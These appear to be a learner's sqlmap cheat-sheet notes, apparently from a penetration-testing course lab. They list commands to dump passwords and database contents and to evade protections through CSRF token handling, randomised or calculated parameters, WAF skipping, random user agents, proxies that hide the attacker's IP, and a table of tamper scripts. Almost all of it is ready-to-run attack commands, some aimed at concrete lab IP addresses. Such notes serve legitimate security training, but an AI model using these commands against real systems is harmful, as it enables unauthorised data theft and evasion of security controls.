 ```sqlmap
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
# Bypassing Web Application Protections
###### Anti-CSRF Token Bypass
```sqlmap
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
###### Unique Value Bypass
```sqlmap
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

```sqlmap
sqlmap -u "http://94.237.53.113:58622/sqlmap.php?id=1&uid=123" --randomize=uid --batch --dump
```
###### Calculated Parameter Bypass
```sqlmap
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```
###### IP Address Concealing
`--proxy="socks4://177.39.187.70:33283"`
###### WAF Bypass
[identYwaf](https://github.com/stamparm/identYwaf)
`--skip-waf`
###### User-agent Blacklisting Bypass
`--random-agent`
```sqlmap
sqlmap -u 'http://STMIP:STMPO/sqlmap.php' --data="id=1" --random-agent --batch --dump
```
###### Tamper Scripts
`--tamper=between`
```sqlmap
sqlmap -u 'http://STMIP:STMPO/sqlmap.php?id=1' --tamper=between --batch --dump
```

| Tamper-Script             | Description                                                                                                                  |
| ------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| 0eunion                   | Replaces instances of UNION with e0UNION                                                                                     |
| base64encode              | Base64-encodes all characters in a given payload                                                                             |
| between                   | Replaces greater than operator (>) with NOT BETWEEN 0 AND # and equals operator (=) with BETWEEN # AND #                     |
| commalesslimit            | Replaces (MySQL) instances like LIMIT M, N with LIMIT N OFFSET M counterpart                                                 |
| equaltolike               | Replaces all occurrences of operator equal (=) with LIKE counterpart                                                         |
| halfversionedmorekeywords | Adds (MySQL) versioned comment before each keyword                                                                           |
| modsecurityversioned      | Embraces complete query with (MySQL) versioned comment                                                                       |
| modsecurityzeroversioned  | Embraces complete query with (MySQL) zero-versioned comment                                                                  |
| percentage                | Adds a percentage sign (%) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)                                          |
| plus2concat               | Replaces plus operator (+) with (MsSQL) function CONCAT() counterpart                                                        |
| randomcase                | Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)                                               |
| space2comment             | Replaces space character ( ) with comments `/                                                                                |
| space2dash                | Replaces space character ( ) with a dash comment (--) followed by a random string and a new line (\n)                        |
| space2hash                | Replaces (MySQL) instances of space character ( ) with a pound character (#) followed by a random string and a new line (\n) |
